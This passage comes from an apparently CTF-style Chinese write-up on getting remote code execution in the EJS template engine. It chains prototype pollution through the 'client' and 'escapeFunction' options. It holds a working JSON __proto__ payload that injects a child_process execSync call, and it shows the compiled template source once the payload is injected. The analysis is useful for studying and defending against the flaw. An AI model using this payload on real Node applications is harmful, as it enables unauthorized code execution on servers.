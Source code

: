 ## 第四处：escapeFunction 字段 RCE

这里是通过 escapeFn，直接拼接入 src 的，所以这里也可以进行拼接，我们控制 client 和 escapeFunction，从而进行拼接

```bash
if (opts.client) {
  src = 'escxapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```

```bash
{
    "__proto__":{
        "client":1,
        "escapeFunction":"escapeFn;global.process.mainModule.require('child_process').execSync('calc')"
    }
}
```

然后可以看到 src 中的值里面成功注入了我们的恶意代码：

[![](assets/1707954592-73d11de2adf8993a230ef0412009aa0e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202200058-b9ea36ce-c1c2-1.png)

```bash
escxapeFn = escapeFn || escapeFn;global.process.mainModule.require('child_process').execSync('calc');
var __line = 1
  , __lines = "<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1><%= message%></h1>\r\n\r\n</body>\r\n</html>"
  , __filename = "D:\\webnode\\CTF 复现\\111\\index.ejs";
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  with (locals || {}) {
    ; __append("<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1>")
    ; __line = 9
    ; __append(escapeFn( message))
    ; __append("</h1>\r\n\r\n</body>\r\n</html>")
    ; __line = 12
  }
  return __output;
} catch (e) {
```